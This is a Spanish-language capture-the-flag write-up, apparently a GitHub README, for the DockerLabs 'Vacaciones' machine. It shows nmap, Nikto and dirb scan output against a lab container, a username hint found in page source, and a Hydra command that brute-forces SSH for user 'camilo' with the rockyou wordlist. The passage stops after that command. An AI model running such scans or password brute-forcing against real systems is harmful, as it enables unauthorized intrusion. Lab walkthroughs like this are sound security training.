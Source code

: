 # Maquina-Vacaciones

## Resolución de la Maquina Vacaciones de Dockerlabs.es "El pinguino de Mario"

## Paso N°1: Busqueda con nmap.

```bash
nmap -sV 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-23 08:31 -03
Nmap scan report for 172.17.0.2
Host is up (0.000093s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.18 seconds
```
_Adjunto imagen:_

![01](https://github.com/EzeTauil/Maquina-Vacaciones/assets/118028611/981f38e1-a867-425c-a015-96e8f0f3a69d)

#################################################################################################

## Paso N°2: Busqueda con Nikto.

```bash
nikto -h http://172.17.0.2             
- Nikto v2.5.0
---------------------------------------------------------------------------
+ Target IP:          172.17.0.2
+ Target Hostname:    172.17.0.2
+ Target Port:        80
+ Start Time:         2024-06-23 08:44:45 (GMT-3)
---------------------------------------------------------------------------
+ Server: Apache/2.4.29 (Ubuntu)
+ /: The anti-clickjacking X-Frame-Options header is not present. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options
+ /: The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type. See: https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Apache/2.4.29 appears to be outdated (current is at least Apache/2.4.54). Apache 2.2.34 is the EOL for the 2.x branch.
+ /: Server may leak inodes via ETags, header found with file /, inode: 4a, size: 616e75cb6bc40, mtime: gzip. See: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2003-1418
+ OPTIONS: Allowed HTTP Methods: POST, OPTIONS, HEAD, GET .
+ /icons/README: Apache default file found. See: https://www.vntweb.co.uk/apache-restricting-access-to-iconsreadme/
+ 8102 requests: 0 error(s) and 6 item(s) reported on remote host
+ End Time:           2024-06-23 08:45:16 (GMT-3) (31 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```
_Adjunto imagen:_ 

![02](https://github.com/EzeTauil/Maquina-Vacaciones/assets/118028611/5b6f778c-e799-4bd3-a45c-c99822d1e4f4)


#################################################################################################

## Paso N°3: Busqueda con dirb.

```bash
dirb http://172.17.0.2 

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Sun Jun 23 08:48:23 2024
URL_BASE: http://172.17.0.2/
WORDLIST_FILES: /usr/share/wordlists/dirb/common.txt
-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://172.17.0.2/ ----
+ http://172.17.0.2/index.html (CODE:200|SIZE:74)
==> DIRECTORY: http://172.17.0.2/javascript/                                                           
+ http://172.17.0.2/server-status (CODE:403|SIZE:275)
                                         
---- Entering directory: http://172.17.0.2/javascript/ ----
==> DIRECTORY: http://172.17.0.2/javascript/jquery/                                                    
                                                                                                       
---- Entering directory: http://172.17.0.2/javascript/jquery/ ----
+ http://172.17.0.2/javascript/jquery/jquery (CODE:200|SIZE:268026)                                                                                                   
-----------------
END_TIME: Sun Jun 23 08:48:25 2024
DOWNLOADED: 13836 - FOUND: 3
```
_Adjunto imagen:_ 

![03](https://github.com/EzeTauil/Maquina-Vacaciones/assets/118028611/0adff950-b91c-4554-836f-d9313aefe3c6)

## _Aca podemos ver 3 directorios, dos de ellos nos envia  a paginas que no funcionan y una la "index.html" que no muestra nada pero si le damos a inspeccionar vemos un mensaje que dice: "De: Juan Para: Camilo, te he dejado un correo es importante"_
_Adjunto imagen:_ 

![05](https://github.com/EzeTauil/Maquina-Vacaciones/assets/118028611/6ea184f0-a4cc-41b8-b071-366cac35a497)

_#################################################################_
-----------------------------------------------------------------------------------------

![06](https://github.com/EzeTauil/Maquina-Vacaciones/assets/118028611/0c4c2b80-f609-4d4d-a030-a40b482cd97b)

_#################################################################_
-----------------------------------------------------------------------------------------
![07](https://github.com/EzeTauil/Maquina-Vacaciones/assets/118028611/e3b537f8-0bd7-460b-a5f2-4df80340db54)

_como sabemos que tiene el "puerto 22" abierto que es el de ssh vamos a probar con el nombre de camilo y si no funciona probamos con el de juan._

## Paso N°4: Ataque de Fuerza Bruta con Hydra.

_Asi que ahora procedemos a usar hydra de la siguiente manera:

```bash
hydra  -l camilo -P /usr/share/wordlists/rockyou.txt -t4 -vV 172.17.0.2 ssh
```



















